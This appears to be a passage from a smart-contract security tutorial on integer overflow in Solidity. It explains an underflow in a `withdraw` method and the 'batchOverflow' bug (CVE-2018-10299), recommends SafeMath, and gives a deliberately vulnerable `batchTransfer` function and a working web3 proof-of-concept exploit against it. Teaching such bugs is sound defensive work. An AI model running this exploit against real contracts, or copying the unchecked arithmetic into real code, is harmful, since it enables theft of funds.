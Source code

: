 This contract's `withdraw` method allows any sender to withdraw as much funds as they like because the `balances` value type is an unsigned integer and wraps to `2^256-1` (an astronomically high value) when "dropping" below 0. 

The good news is that Solidity >0.8 added transparent support for this error class and would revert during the execution of the requirement checks. If you're writing code that requires using a Solidity version below 0.8, you're highly recommended to use one of the publicly available SafeMath implementations for any arithmetic operation, e.g. the one by OpenZeppelin:

```solidity
pragma solidity <0.8.0;

import "@openzeppelin/contracts/math/SafeMath.sol";

contract NumberOverflows {
  using SafeMath for uint256;
  //...
  function withdraw(uint256 _amount) public {
    require(balances[msg.sender].sub(_amount) >= 0);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    payable(msg.sender).transfer(_amount);
  }
}
```

Arithmetic overflow conditions aren't always as obvious as in this example. Even though seems quite unlikely that multiplications on an `uint256` ever hit the roof, they can be tricked into that by users, like in this [classical]([NVD - CVE-2018-10299](https://nvd.nist.gov/vuln/detail/CVE-2018-10299#vulnCurrentDescriptionTitle)) "batchOverflow" example that could be found in several early ERC20 contracts:

```solidity
  function batchTransfer(address[] memory receivers, uint256 value) public {
    uint256 amount = receivers.length * value;
    //instead: uint256 amount = value.mul(receivers.length);

    require(balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender].sub(amount);
    for (uint256 i = 0; i < receivers.length; i++) {
      balances[receivers[i]] = balances[receivers[i]].add(value);
    }
  }
```

Since an attacker is in full control over `batchTransfer`'s inputs, anyone can choose $2^{255}$ for `value` and provide 2 accounts. The multiplication overflow leads to `amount` being zero which passes the requirement (the attacker's `balance`  is 0). After the call `receivers` will end up with nearly unlimited balances and can withdraw as much funds from the contract as they like. Here's the attack's code:

```javascript
const instance = await NumberOverflows.deployed();
const uint255 = (new web3.utils.BN(2)).pow(new web3.utils.BN(255));

await instance.batchTransfer([accounts[2], accounts[3]], uint255, {
  from: accounts[8]
});

const attackerBalance = await instance.balances(accounts[2]);
expect(attackerBalance.toString()).to.equal("57896044618658097711785492504343953926634992332820282019728792003956564819968");
await instance.withdraw(web3.utils.toWei("2", "ether"), { from: accounts[2] });
```
